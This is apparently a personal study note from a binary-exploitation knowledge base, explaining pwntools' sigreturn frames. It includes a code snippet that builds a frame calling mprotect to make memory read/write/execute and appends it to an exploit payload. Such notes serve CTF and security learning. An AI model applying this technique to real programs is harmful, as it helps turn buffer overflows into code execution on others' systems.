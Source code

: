 # pwntools sigreturn
sigreturn syscall restores a frame of all registers
- Example: this sigreturn frame will jump right to a syscall to mprotect the executable code as r/w/x so we can use it as a stack and a buffer overflow spot
```
frame = SigreturnFrame()
frame.rip = DIRECT_SYSCALL
frame.rsp = OFFSET_VULN_FUNC_SYMTAB # set RSP as an offset into the symbol table pointing to the vuln function so we can ret to vuln right after
frame.rax = constants.linux.amd64.__NR_mprotect # syscall mprotect
frame.rdi = 0x401000
frame.rsi = 0x1000
frame.rdx = constants.linux.amd64.PROT_READ | constants.linux.amd64.PROT_WRITE | constants.linux.amd64.PROT_EXEC

payload += bytes(frame)
```
` zet/20221003150518/README.md `

# Related

- [20221003150526](/zet/20221003150526/README.md) pwn methodology / to try list
- [20221003150512](/zet/20221003150512/README.md) pwn commands / tricks
- [20221003150509](/zet/20221003150509/README.md) python pwn tricks
- [20221003150503](/zet/20221003150503/README.md) pwntools

Tags:

    
